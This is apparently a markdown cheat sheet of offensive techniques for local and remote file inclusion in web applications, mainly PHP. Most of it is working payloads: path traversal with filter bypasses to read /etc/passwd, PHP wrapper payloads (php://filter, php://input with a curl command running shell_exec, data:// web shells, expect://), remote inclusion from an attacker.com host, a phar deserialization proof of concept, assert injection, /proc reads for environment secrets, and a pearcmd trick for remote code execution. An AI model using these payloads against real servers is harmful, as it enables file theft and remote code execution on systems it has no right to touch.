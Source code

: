 # LFI/RFI via Path Traversal
> LFI (commonly exploited through directory traversal) refers to the inclusion of unintended (but locally avaliable on the server) files into a frontend interface that can be accessed by an attacker.

This differs from RFI (Remote File Inclusion), which is the inclusion of remote files (not originally available on the server) that can result in RCE. LFI is usually milder compared to RFI, but can still be deadly in early stages of an attack, such as viewing the source of an application to identify possible vectors for RCE.

## OG exploit (path/directory traversal)

`https://example.com/?page=../../../../../../flag.txt`

### Filter bypass
`example.com/?page=....//....//etc/passwd`

`?page=..///////..////..//////etc/passwd`

Some applications may try to validate the start of the file path.  
`?page=/var/www/images/../../../etc/passwd`

You can also url-encode or double url-encode to bypass some filters.  
`?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`

`?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

If the application checks for file extension:  
`?page=../../../etc/passwd%00.png`

## Python's urllib
urllib.request.urlopen() has a quirky built-in functionality to automatically parse `<URL:http://example.com>` and `<http://example.com>` to `http://example.com`. 

We can bypass certain filters like scheme filters this way, as urllib.parse.urlparse() doesn't do the same thing, but instead interprets the entire thing as the path.

## PHP

### Path truncation (bypass appending of more chars at end)

`example.com/?page=/etc/passwd%00`
(Fixed in php 5.3)
This will signal EOL and ignore the rest of filename after the null byte

### URL scheme exploits (works with functions like **file**, **open**, **fwrite**, **fclose**, **file_get_contents**, **file_put_contents** etc)

*NOTE: Remember to urlencode payloads if necessary!*

#### php://filter

After directory traversal has been identified, to view php source instead, use php file filters

`https://example.com/?page=php://filter/convert.base64-encode/resource=flag.php`

`https://example.com/?page=php://filter/read=string.rot13/resource=flag.php`

Other filters:
- [x] string.toupper
- [x] string.tolower
- [ ] string.strip\_tags

The filter is necessary to ensure the source is returned, instead of just executing the php. After returning the source, it can be decoded (b64decode for the former, rot13 for the latter)

> Sometimes RFI may also be possible.

#### http://

Can redirect to external source, such as attacker's server -> RCE
If extension is appended, bypass by added a query, `http://attacker.com/?q=` -> `include('http://attacker.com/?q=.php')`

#### php://input

Reads input from POST request body
`php://input`
`curl -X POST --data '<?php echo shell_exec('id'); ?>' 'https://example.com/?page=php://input' -k -v`

#### zip://

(note: following exploits appended where directory traversal was identified, eg. `example.com/?page=EXPLOIT`)
`zip://<zipfile>#<file>` to upload files zipped and decompress on target.

#### data://

`data://text/plain, <?php system($_GET["cmd"]);`
`data://text/plain;base64, <b64encoded-exploit>`

#### expect://

`expect://ls`

#### phar://

Note: not as useful, because phar file has to first be present on target. Useful if unrestricted uploads are allowed and filename can be determined. Also useful if app only reads the file, and doesn't execute it (in this case, deserialization = execution)
Create a phar file

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method `__destruct()` or `__wakeup()` defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
            echo $this->data;
                }
                }
                // output: rips
                include('phar://test.phar');
```

### LFI/RCE via assert

If source looks like this:
`assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");`
`' and die(show_source('/etc/passwd')) or '` (similar to SQLi)
`' and die(system('whoami')) or '`

## proc filesystem

The /proc directory contains one subdirectory for each process running on the system, which is named after the process ID. PID can be bruteforced (up to 2^15).

`/proc/self` is a symlink that points to the currently running process. 

Intersting payloads:
- `/proc/[PID]/cmdline` (shows process invocation command, may expose paths, usernames, passwords)
- `/proc/[PID]/environ` (shows env vars)
- `/proc/[PID]/cwd` (shows current working directory)
- `/proc/[PID]/fd/[0-9]` (contains one entry for each file the process has open)

## PHP pearcmd LFI2RCE

pearcmd.php (installed by default on Docker php images, usually found at /usr/local/lib/php/pearcmd.php). 
This internally calls `pear`, which has a subcommand that allows us to create PHP config files.

`pear config-create <root path> <filename>`

The stuff in root path gets repeated a number of times in the config file. This is the output:

```
$ pear config-create "/tmp/<?=system('ls')>" /tmp/asdf.php
$ cat /tmp/asdf.php

#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:30:"/tmp/<?=system('ls')>/pear/php";s:8:"data_dir";s:31:"/tmp/<?=system('ls')>/pear/data";s:7:"www_dir";s:30:"/tmp/<?=system('ls')>/pear/www";s:7:"cfg_dir";s:30:"/tmp/<?=system('ls')>/pear/cfg";s:7:"ext_dir";s:30:"/tmp/<?=system('ls')>/pear/ext";s:7:"doc_dir";s:31:"/tmp/<?=system('ls')>/pear/docs";s:8:"test_dir";s:32:"/tmp/<?=system('ls')>/pear/tests";s:9:"cache_dir";s:32:"/tmp/<?=system('ls')>/pear/cache";s:12:"download_dir";s:35:"/tmp/<?=system('ls')>/pear/download";s:8:"temp_dir";s:31:"/tmp/<?=system('ls')>/pear/temp";s:7:"bin_dir";s:26:"/tmp/<?=system('ls')>/pear";s:7:"man_dir";s:30:"/tmp/<?=system('ls')>/pear/man";}
```

Afterwards, `include`ing /tmp/asdf.php will execute `ls` a couple of times, and RCE will be achieved.

### Query string exploitation

`?path=../../../usr/local/lib/php/pearcmd.php&+config-create+tmp<?=system('ls')>+/tmp/asdf.php`

If you need spaces in your RCE, you can use ${IFS} (+ won't work as pear will treat it as a parameter delimiter)

*If your browser automatically URLencodes the special characters (`<?'>`), use curl or Burp Pro instead*

### Other LFI2RCE

https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/
